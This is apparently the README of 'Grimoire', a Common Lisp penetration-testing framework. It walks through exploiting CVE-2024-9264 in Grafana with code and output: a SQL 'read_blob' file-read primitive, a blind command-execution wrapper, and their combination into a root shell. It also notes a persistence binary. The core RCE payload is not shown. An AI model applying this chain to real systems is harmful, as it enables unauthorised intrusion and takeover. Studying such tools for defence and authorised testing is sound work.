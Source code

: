 # Grimoire

<p align="center">
  <img src="https://github.com/user-attachments/assets/127f9116-e1d9-4ccc-9c22-ee17c3afda75"/>
</p>

<p align="center">
  A collection of utilities designed to facilitate reconnaissance, exploitation, persistence, and privilege escalation (only for educational purposes).
</p>

## Installation

To use Grimoire, clone the repository to your local machine.

```bash
$ git clone https://github.com/solanav/grimoire
```

After that, launch your common lisp environment (be it Lem, Emacs or any other IDE) and load Grimoire with:

```lisp
CL-USER> (ql:quickload :grimoire)
```
    
You should then enter the package and start working on the system itself, rather than using it from another package:
    
```lisp
CL-USER> (in-package :grimoire)
```
    
## Concepts

- **Glyphs**: Created using `define-glyph`. They expose some type of operation to the framework such as reading files (:SIGHT) , code execution (:COMMAND), blind code execution (:SIGHTLESS-COMMAND), file uploads (:MARK), etc.

- **Spells**: Created using `define-spell`. They use the glyphs available to do interesting or useful operations on the objective. For example, the spell `download-all` allows the user to download all files in a given remote path if the glyph :COMMAND is available to Grimoire.
    
- **Transmutations**: Created using `define-transmutation`. They allow Grimoire to derive new glyphs from already implemented ones. For example, if you have both the :SIGHT and :SIGHTLESS-COMMAND glyphs, you will be able to derive the :COMMAND through a transmutation.
    
- **Relics**: Managed through the functions starting with `relic/*`. A basic and global key-value store.

## Usage

Once you have Grimoire loaded, you can start using its utilities. First you should find an entry point to the system you are trying to exploit.

If you find a way of reading files in the remote server for example, you can create a function called `CVE-2024-9264` that reads files from the remote server:

```lisp
(define-glyph :sight CVE-2024-9264 (file)
  (let* ((text (str:replace-all
                "\\x0A" (fmt "~%")
                (send-request-to-vulnerable-server
                 (fmt "SELECT content FROM read_blob(\"~a\")"
                      file))))
         (text-len (1- (length text))))
    (if (plusp text-len)
        (subseq text 0 text-len)
        "")))
```

Grimoire now unlocks a bunch of spells that you can use to progress further, for example:

```lisp
GRIMOIRE> (all-users)
("root" "daemon" "bin" "sys" "sync" "games" "man" "lp" "mail"
 "news" "uucp" "proxy" "www-data" "backup" "list" "irc" "gnats"
 "nobody" "_apt" "grafana")

GRIMOIRE> (system-info)
(("PRETTY_NAME" . "Ubuntu 22.04.4 LTS")
 ("NAME" . "Ubuntu") 
 ("VERSION_ID" . "22.04")
 ("VERSION" . "22.04.4 LTS (Jammy Jellyfish)")
 ("VERSION_CODENAME" . "jammy") 
 ("ID" . "ubuntu")
 ("ID_LIKE" . "debian")
 ("HOME_URL" . "https://www.ubuntu.com/")
 ("SUPPORT_URL" . "https://help.ubuntu.com/")
 ("BUG_REPORT_URL" . "https://bugs.launchpad.net/ubuntu/")
 ("PRIVACY_POLICY_URL" . "https://.../privacy-policy")
 ("UBUNTU_CODENAME" . "jammy"))
```
    
If you now create another glyph to do blind execution of code:

```lisp
(define-glyph :sightless-command CVE-2024-9264 (command)
  (send-request-to-vulnerable-server
   (fmt *exploit* command)))
```
    
So now if we check our current glyphs:
```lisp
GRIMOIRE> (glyph/info)
[+] Glyph "SIGHT"
Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"
```
    
Now we should check if we have any interesting transmutations to expand our glyphs.

Running `transmutation/info` will yield:
```lisp
GRIMOIRE> (transmutation/info)
[+] Transmutation "CAT"
Runnable? [NO] (needs :COMMAND)
Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
Runnable? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
Needed?   [YES] (provides :COMMAND)
```
    
So lets run the first transmutation in the REPL:
```lisp
GRIMOIRE> (transmutation/run :let-there-be-light)
[+] Added new glyph: :COMMAND
```

So lets test it with the `fake-shell` spell:
```lisp
GRIMOIRE> (fake-shell)
[/usr/share/grafana]$ ls
LICENSE
bin
conf
public

[/usr/share/grafana]$ whoami
root

[/usr/share/grafana]$ exit
```
    
You can always run `(info)` to see the state of the system:
```lisp
================== ~* SPELLS ~* ==================

[+] Spell "SYSTEM-INFO"
    Castable? [YES] (needs :SIGHT)

[+] Spell "ALL-USERS"
    Castable? [YES] (needs :SIGHT)

[+] Spell "USERS"
    Castable? [YES] (needs :SIGHT)

[+] Spell "FLAG"
    Castable? [YES] (needs :SIGHT)

============== ~> TRANSMUTATIONS ~> ==============

[ ] Transmutation "CAT"
    Possible? [NO] (needs :COMMAND)
    Needed?   [NO] (provides :SIGHT)

[+] Transmutation "LET-THERE-BE-LIGHT"
    Possible? [YES] (needs :SIGHT, :SIGHTLESS-COMMAND)
    Needed?   [YES] (provides :COMMAND)

================== <> GLYPHS <> ==================

[+] Glyph "SIGHT"
    Provided by "#<FUNCTION SIGHT/CVE-2024-9264>"

[+] Glyph "SIGHTLESS-COMMAND"
    Provided by "#<FUNCTION SIGHTLESS-COMMAND/CVE-2024-9264>"

==================================================
```

## Roadmap

In no particular order:
    
- [ ] Add mark (write) utilities to Grimoire.
- [ ] Package Grimoire with Lem so it can be used as a standalone tool.
- [ ] Add an easy way to create POCs and export them so Grimoire can use them.
- [ ] Add a graph like representation of glyphs and how they can be chained together.
- [ ] Add a way to easily share glyphs with other users.
- [ ] Add logging.
- [ ] Add a way to easily create a report of the pentest.
- [ ] Add some testing of new glyphs and spells so we can even make transmutations automatic.
    
- [x] Add a deployable binary for persistance.
- [x] Add command (exec) utilities to Grimoire.
- [x] Add sight (read) utilities to Grimoire.
- [x] Add some kind of database to store relics and other stuff.

